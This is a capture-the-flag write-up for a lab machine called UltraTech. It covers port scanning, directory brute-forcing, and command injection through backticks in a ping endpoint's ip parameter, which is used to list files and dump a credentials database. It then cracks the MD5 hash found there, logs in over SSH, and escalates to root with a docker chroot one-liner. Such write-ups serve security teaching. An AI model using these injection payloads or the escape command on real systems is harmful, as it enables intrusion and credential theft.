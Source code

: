 # UltraTech writeup
This is an intermediate challange that requires relatively easy methods for privilegie escalation.

Enumeration:
Using `sudo nmap -Pn -p- -v -A 10.10.22.222` to find open ports on the server yields the following results:
![nmap scan](images/nmap.png)

We can easily find all of the answers for part one of this challange by inspecting of the nmap scan.
1. Which software is using the port 8081?
    * Node.js

2. Which other non-standard port is used?
    * 31331

3. Which software using this port?
    * Apache

4. Which GNU/Linux distribution seems to be used?
    * Ubuntu (Both SSH and Apache are running their Ubuntu versions)

5. The software using the port 8080 is a REST api, how many of its routes are used by the web application?
    * 2 (_http-cors and _http-title)


We try finding hidden directories on the Node.js by running `gobuster dir -u http://10.10.22.222:8081/ -w /usr/share/dirb/wordlists/big.txt  -t 30` since there seems to be something hiding here. 
![gobuster scan](images/gobuster.png)

Heading to the /auth site only tells us that `You must specify a login and a password`.
There doesn't seem like there's very much to do on this website...yet.

Doing a similar gobuster scan on the apache server at port 30331, however, reveals a lot of directories:
`gobuster dir -u http://10.10.22.222:31331 -w /usr/share/dirb/wordlists/big.txt  -t 30`
![apache server scan](images/apache_server.png)

Heading to the /js directory gives us a couple of files, where the `api.js` stands out. 
In the api.js file we see this

![api.js](images/api_js.png)

This script seems to, amongst other things, ping itself on port 8081 (which is where the Node.js site resides) to check if the API is running. The new endpoint, `http://10.10.55.254:8081/ping?ip={some_ip}`, is revealed. 

By going to `http://10.10.55.254:8081/ping?ip=10.10.55.254` we get this reply `PING 10.10.55.254 (10.10.55.254) 56(84) bytes of data. 64 bytes from 10.10.55.254: icmp_seq=1 ttl=64 time=0.023 ms --- 10.10.55.254 ping statistics --- 1 packets transmitted, 1 received, 0% packet loss, time 0ms rtt min/avg/max/mdev = 0.023/0.023/0.023/0.000 ms` which looks a lot like Linux' standard ping reply. This implies that the system might be vulnerable for a [command injection attack](https://owasp.org/www-community/attacks/Command_Injection). An inline execution is performed when a command is surrounded by backticks (`).

Thus by sending the argument ``` `ls` ``` to the server, we first execute the ls command, and then send the result to the ping command. By going to ``` http://10.10.55.254:8081/ping?ip=`ls` ``` we receive this reply from the server. `ping: utech.db.sqlite: Name or service not known `

1. There is a database lying around, what is its filename?
    * utech.db.sqlite

This endpoint is thus vulnerable to clommand injection attacks. 

In order to read this file you simply send this request ``` http://10.10.55.254:8081/ping?ip=`cat utech.db.sqlite` ```. 
`ping: ) ���(Mr00tf357a0c52799563c7c7b76c1e7543a32)Madmin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded`

After some trying and failing, I find out that the username is `r00t` and MD5 hash of the password `f357a0c52799563c7c7b76c1e7543a32`.

2. What is the first user's password hash?
    * 357a0c52799563c7c7b76c1e7543a32

Using [Crackstation](crackstation.net) i find that the password for `r00t` is `n100906`.

3. What is the password associated with this hash?
    * n100906

![Crackstation](images/md5.png)

I try to connect to the server with SSH by using these credentials, and to my suprise the username and password combination actually works! User privilegies gained! :^)

Basic enumeration as r00t does not give us anything. 
I intall `linpeas.sh` in r00t's home directory and run it. 

![Linpeas](images/linpeas.png)

The Docker user seems to stand out, so we better check that out more closely. Heading over to [GTFObin's site for docker](https://gtfobins.github.io/gtfobins/docker/) we see that the `docker run -v /:/mnt --rm -it bash chroot /mnt sh` can be used to escape restricted shells and gain root access.

![Rooted!](images/root.png)

Rooted! :^) 

